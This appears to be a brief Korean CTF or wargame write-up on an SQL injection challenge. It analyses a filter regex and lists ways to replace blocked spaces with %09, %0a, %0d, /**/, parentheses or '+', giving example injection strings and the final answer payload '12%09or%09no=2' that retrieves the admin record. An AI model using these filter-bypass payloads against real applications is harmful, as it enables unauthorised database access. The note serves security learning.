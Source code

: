* regex를 보면,
    *  |\/|\(|\)|\||&|select|from|0x
        * '\' '(' ')' '&' '&' '|' 'select' 'from' '0x' ' '를 포함하지 않아야 한다.
        * guest의 no=1, admin의 no=2인데, 이를 방지하기 위해서는
        * no=12 or no=2와 같은 query를 집어넣어야 한다
        * 근데 space에 해당하는 값이 걸러지므로, tab에 해당하는 값을 넣어주자
    * space bar가 허용되지 않을때, 사용할 수 있는 목록
        * Tab: %09
            - ex)no=111%09or%09no=2
        * Line Feed(\n): %0a
            - ex)no=111%0aor%0ano=2
        * Carrage Return(wr): %0d
            - ex)no=111%0dor%0dno=2
        * 주석: /**/
            - ex)no=111/**/or/**/no=2
        * 괄호: ()
            - ex)no=(111)or(no=2)
        * 더하기: +
            - ex)no=111+or+no=2
    * answer query: 12%09or%09no=2